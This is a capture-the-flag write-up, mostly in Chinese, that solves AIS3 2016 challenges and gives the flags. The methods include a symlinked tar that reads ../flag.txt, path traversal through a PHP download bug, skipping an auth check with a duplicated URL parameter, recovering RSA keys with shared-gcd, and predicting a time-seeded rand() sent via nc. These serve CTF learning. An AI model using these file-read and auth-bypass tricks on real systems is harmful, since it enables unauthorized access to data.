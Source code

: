 ## misc-1
`ais3{2016_^_^_hello_world!}`
## misc-2
`hd UNPACK_ME` 觀察發現類似7z的[signature](http://www.7-zip.org/recover.html):  
37 7A BC AF 27 1C 被改成 37 5A BC AF 27 1C  
*(其實他就是把 "7z" 換成 "7Z" XD)*  
Use python mmap to repair:
``` python
with open('','a+') as file:
  mm = mmap.mmap(file.fileno(),0)
  mm[1] = '\x7A'
  mm.close()
```
修好之後會發現檔案被加密了  其中一個0 byte的檔名就是密碼   
`7z x 壓縮檔 -p密碼`  
接下來一樣的方式修好7z 解壓縮後會有secret.txt  
裡面是下一個檔案的密碼  
解壓縮一次size會減少300 bytes左右, 估計包了1000層
``` sh
for i in `seq 1000`;do
  filename=`ls | grep ".\{16,\}"`
  ./repair.py $filename
  7z x $filename -p`cat secret.txt` -y
done
```
```sh
cat flag.txt
ais3{7zzZzzzZzzZzZzzZiP}
```
## misc-3
提示是Symbolic Link

程式碼會把上傳的tar檔解壓縮後,  
再跟../flag.txt做hash比較  
要brute force去做hash collision看起來是不太可行..  
後來提示出來之後才知道symbolic link可以隨意指定路徑
```sh
ln -s ../flag.txt guess.txt
tar cvf guess.tar guess.txt
```
把檔案上傳後就可以拿到flag
## web-1
Google 也找不到的原因就是因為robots.txt的設定  
直接打開robots.txt 就能找到隱藏的網頁了  
https://quiz.ais3.org:8011/robots.txt
```
User-agent: *
Disallow: /admin
Disallow: /cgi-bin/
Disallow: /images/
Disallow: /tmp/
Disallow: /private/
Disallow: /this_secret_page_you_should_not_know_where_it_is.php
```
https://quiz.ais3.org:8011/this_secret_page_you_should_not_know_where_it_is.php   
`ais3{Y0u_beat_the_G00g1e!!}`
## web-2
Location 會向瀏覽器傳送 redirect 指令  
但是原本的網頁還是會傳送到client端  
使用無視redirect的curl:  
`curl https://quiz.ais3.org:8012/panel.php`
```html
<!DOCTYPE html>
<html>
<head>
    <meta charset="UTF-8">
    <title>Admin Panel</title>
</head>
<body>
Admin's secret is: ais3{admin's_pane1_is_on_fir3!!!!!}</body>
</html>
```
## web-3
根據這個[bug](https://bugs.php.net/bug.php?id=55511):  
https://quiz.ais3.org:8013/download.php?p=../flag.php&a=10:5  
```php
Ha! Ha! You can not see the content of this file, because it is PHP!!! :)
<?php
$flag = "ais3{haha!i_bypassed_the_fucking_waf!}";
?>
```
## crypto-1
`xortool crypto1`發現可能的長度為 13 or 39  
`xortool crypto1 -l 13 -c 00`不是flag  
`xortool crypto1 -l 39 -c 00`會看到AIS字樣, 看來十分接近了  

改用空格分析:  
`xortool crypto1 -l 39 -c 20`  
`ais3{XoR_enCrYPtiON_15_n0t_a_G00d_i!ea}`  
上傳之後發現答案是錯的OAO  
根據某位大大的說法只好自己腦補一下XD   
`ais3{XoR_enCrYPtiON_15_n0t_a_G00d_idea}`  
不知道是不是bug還是解法不對
## crypto-2
這題其實可以繞過hash pump的部份  
　quiz.ais3.org:8014/?expire=1467442319&auth=2aa272c43a0440b10abb0a1c4266842b941bc63c&expire=9999999999999  
expire跟auth本來就已經是一對了  但是url如果有重複的parameter會以後面的為主  
只要讓expire > time(0)就可以了...  
`ais3{HasH.eXtension.@tt@ck!}`

理論上應該要避免掉這種狀況才對XD  不知道為什麼會留著這個漏洞  

## crypto-3
RSA2048  
首先先檢查他給的100個public key會發現  
每一個的exponent都是179424787  
而且public key有很多組重複的, 去掉重複的key之後剩下38組  
兩兩求gcd 得到76組private key  
(估計其中還是有重複的  只是才76組我也懶得過濾了XD)  
最後用private key解開flag.enc  
`ais3{Euc1id3an_a1g0ri7hm_i5_u53fu1}`
## remote-1
time attack
```c
#include
int main(){
  srand(time(NULL));
  printf("%d",rand()^0x2016a153);
}
```
```sh
./a.out | nc quiz.ais3.org port
ais3{sEEd_is_cRiTiCaL_@_@}
```
## binary-1
原本是用回推encrypted的方式  但是算出來的答案是錯的  
後來用計算instruction的方式  
待補
